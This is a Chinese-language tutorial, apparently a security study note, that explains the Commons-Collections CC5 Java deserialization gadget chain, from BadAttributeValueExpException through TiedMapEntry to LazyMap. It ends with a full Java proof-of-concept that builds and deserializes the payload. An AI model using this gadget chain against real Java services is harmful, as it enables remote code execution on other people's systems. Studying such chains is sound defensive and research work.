


- [CC5](#cc5)
  - [BadAttributeValueExpException#readObject](#badattributevalueexpexceptionreadobject)
  - [TiedMapEntry#getValue](#tiedmapentrygetvalue)
  - [利用思路](#利用思路)
    - [POC构造](#poc构造)
# CC5
条件:  
* commons-collections <= 3.2.1 or 4.0 
* jdk8 >= 8u76 or jdk6 >= 6u17 
* 没开启security mannager 

## BadAttributeValueExpException#readObject
BadAttributeValueExpException类是一个异常处理类,其最终继承于Throwable类,其中实现了序列化接口,其readObject()方法如下:

在获取到输入对象后,取得其该对象`val`的字段值,当该字段值类型不是String类型且getSecurityManager为空,即未开启getSecurityManager时则会调用该字段对象的`toString`方法.
## TiedMapEntry#getValue
而在`TiedMapEntry`类中有一个`toString`方法如下  

其中调用了该类的`getValue`方法,而在该方法中又调用了`this.map.get(this.key)`方法,相关代码如下  

该类构造函数如下  

## 利用思路
当我们控制TiedMapEntry的map为LazyMap,则在其`toString`方法中会触发LazyMap.get()方法,也就是进入了CC1中的`Transformer`利用链,而要调用`toString`方法则要利用`BadAttributeValueExpException#readObject`作为入口
### POC构造
在idea调试时,idea会自动调用变量的`toString`方法,导致中途会不停的弹计算器,需要在配置中把自动toString调用关掉.  

因为在生成`BadAttributeValueExpExceptio`类时构造函数会触发其map的toString方法,导致本地先执行了命令后异常退出,所以要先用无参构造函数生成`BadAttributeValueExpExceptio`类后再用反射去修改其val属性为LazyMap即可.  

完整POC
```java
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[] {getTemplate()})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap hashMap = new HashMap();
        hashMap.put("s","1");
        LazyMap lazyMap = (LazyMap) LazyMap.decorate(hashMap,chainedTransformer);
        BadAttributeValueExpException Badobj = new BadAttributeValueExpException(null);
        setFieldValue(Badobj,"val",new TiedMapEntry(lazyMap,"test"));
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(Badobj);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
    }
```